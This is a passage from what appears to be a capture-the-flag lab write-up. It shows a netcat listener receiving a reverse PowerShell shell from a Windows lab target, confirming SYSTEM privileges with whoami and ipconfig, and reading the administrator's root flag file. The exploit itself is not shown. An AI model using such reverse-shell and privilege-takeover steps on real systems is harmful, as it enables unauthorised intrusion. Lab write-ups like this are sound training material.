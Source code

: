 ```
┌──(eMVee@kali)-[~]
└─$ nc -lvp 1234                                                          
listening on [any] 1234 ...
10.129.138.232: inverse host lookup failed: Unknown host
connect to [10.10.14.26] from (UNKNOWN) [10.129.138.232] 63477
Windows PowerShell running as user PRINTER$ on PRINTER
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Windows\system32>
```
It workerd!
So let's see who I am on the machine by running the command: **whoami;hostname;ipconfig**.
```
PS C:\Windows\system32>whoami;hostname;ipconfig
nt authority\system
printer

Windows IP Configuration


Ethernet adapter Ethernet0:

   Connection-specific DNS Suffix  . : .htb
   IPv6 Address. . . . . . . . . . . : dead:beef::202
   IPv6 Address. . . . . . . . . . . : dead:beef::68b4:9ce:9b4e:bf5
   Link-local IPv6 Address . . . . . : fe80::68b4:9ce:9b4e:bf5%10
   IPv4 Address. . . . . . . . . . . : 10.129.138.232
   Subnet Mask . . . . . . . . . . . : 255.255.0.0
   Default Gateway . . . . . . . . . : fe80::250:56ff:feb9:f8ec%10
                                       10.129.0.1
PS C:\Windows\system32> 
```
Since the user is the *nt authority\system*, we can fully control the machine and get the last flag on this machine.

```
PS C:\Windows\system32> cd c:\users\administrator\desktop
PS C:\users\administrator\desktop> dir


    Directory: C:\users\administrator\desktop


Mode                LastWriteTime         Length Name    
----                -------------         ------ ----    
-ar---        2/11/2022   1:44 AM             34 root.txt


PS C:\users\administrator\desktop> type root.txt
<---- FLAG ---->
PS C:\users\administrator\desktop> 
```




